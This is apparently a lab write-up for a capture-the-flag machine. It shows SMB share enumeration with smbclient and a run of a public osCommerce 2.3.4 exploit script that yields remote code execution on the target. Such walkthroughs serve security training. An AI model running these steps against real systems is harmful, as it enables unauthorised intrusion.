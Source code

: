 
root@LAPTOP-U5913CMD:/home/mosh/Desktop# smbclient -N -L \\\\10.10.69.254\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk
        Windows         Disk
SMB1 disabled -- no workgroup available


root@LAPTOP-U5913CMD:/home/mosh/Desktop# smbclient //10.10.69.254/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 12 04:06:40 2019
  ..                                 DR        0  Fri Apr 12 04:06:40 2019
  Default                           DHR        0  Tue Jul 14 12:47:20 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:11:57 2009
  Public                             DR        0  Tue Jul 14 10:11:57 2009

                7863807 blocks of size 4096. 4761263 blocks available
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                  DR        0  Fri Apr 12 04:06:40 2019
  ..                                 DR        0  Fri Apr 12 04:06:40 2019
  Default                           DHR        0  Tue Jul 14 12:47:20 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:11:57 2009
  Public                             DR        0  Tue Jul 14 10:11:57 2009
cd
                7863807 blocks of size 4096. 4761263 blocks available
smb: \> cd Default
smb: \Default\> ls


Seems like we can access Users file.
What can we do now lets see.

WE have got oscommerce exploit

http://10.10.69.254:8080/oscommerce-2.3.4/catalog/install/

Lets see if it gets exploited.


root@LAPTOP-U5913CMD:/home/mosh/Downloads# python 44374.py
[+] Successfully launched the exploit. Open the following URL to execute your code

http://blueprint.thm:8080//oscommerce-2.3.4/catalog/install/includes/configure.php
root@LAPTOP-U5913CMD:/home/mosh/Downloads#


Warning: Unterminated comment starting line 27 in C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\configure.php on line 27
Volume in drive C has no label. Volume Serial Number is 14AF-C52C Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes 11/13/2020 03:27 PM
. 11/13/2020 03:27 PM
.. 04/11/2019 09:52 PM 447 application.php 11/13/2020 03:28 PM 1,118 configure.php 04/11/2019 09:52 PM
functions 2 File(s) 1,565 bytes 3 Dir(s) 19,504,197,632 bytes free
